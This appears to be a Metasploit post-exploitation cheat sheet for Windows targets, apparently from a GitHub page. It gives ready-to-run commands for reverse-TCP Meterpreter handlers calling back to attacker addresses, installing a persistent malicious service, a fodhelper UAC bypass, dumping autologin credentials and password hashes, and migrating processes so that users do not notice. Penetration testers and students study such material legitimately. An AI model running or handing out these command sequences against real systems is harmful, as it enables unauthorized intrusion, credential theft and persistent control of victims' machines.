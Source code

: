 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
sessions -i 1 > Resumes Session 1 after backgrounding
```

#### Meterpreter
> Allows attacker to enumerate information from exploited machine.

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.

#### Dumping Autologin information
> To extract AutoLogin stored credentials from the target machine we need to migrate current process to explorer.exe sothat we have full control to users environment.
```
migrate -N explorer.exe

background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```
![Screenshot at 2022-12-26 12-57-43](https://user-images.githubusercontent.com/85208639/209517391-160c55de-c5c9-44d8-a0d4-adc2a5fd7f17.png)

#### Bypassing UAC(User Account Control) on Modern Windows and Dumping Admin Hash
```
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set session 1
msf6 > set LHOST 10.0.2.4
msf6 > set LPORT 1234
msf6 > exploit
```

```
meterpreter > background
msf6 > use windows/gather/hashdump
msf6 > set SESSION 2
msf6 > run

```

#### Migrating Process
> Sometime users may lookinto the process running on their system and attacker session can be terminated. So we can migrate our process to another having equal privilege.

```
ps     > list all process on system
getpid > get the current shell pid
ps -U SYSTEM
migrate pid
```
